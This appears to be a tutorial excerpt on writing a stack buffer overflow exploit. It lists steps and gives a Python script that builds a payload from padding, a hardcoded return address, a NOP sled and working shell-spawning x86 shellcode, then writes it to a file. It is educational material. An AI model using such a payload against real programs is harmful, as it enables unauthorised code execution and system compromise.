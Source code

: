 Steps to create a buffer overflow exploit: 

```ad-summary
1. Identify the vulnerable function and input. 
2. Determine the buffer size and offset to the return address. 
3. Craft a payload that includes the shellcode and the new return address. 
4. Test and refine the exploit.
```

A simple example of a buffer overflow script would be the following:

```python
import struct

# Shellcode (Example: spawn a shell)

shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

# Buffer size and offset to return address

buffer_size = 100
offset = 76

# Crafting the payload

payload = b"A" * offset # Padding
payload += struct.pack("<I", 0xbffff1c0) # New return address (Example address)
payload += b"\x90" * 16 # NOP sled
payload += shellcode

# Write payload to file

with open("exploit.bin", "wb") as f:
    f.write(payload)
    
print(f'Exploit payload written to exploit.bin (size: {len(payload)} bytes')
```

This script generates a payload that includes: 

```ad-summary
1. Padding to fill the buffer 
2. A new return address (in this example, a hardcoded address) 
3. A NOP sled (a series of no-operation instructions) 
4. The shellcode 
```

The payload is then written to a file, which can be used as input to the vulnerable program.

### Case study: writing a custom exploit for a known vulnerability
---

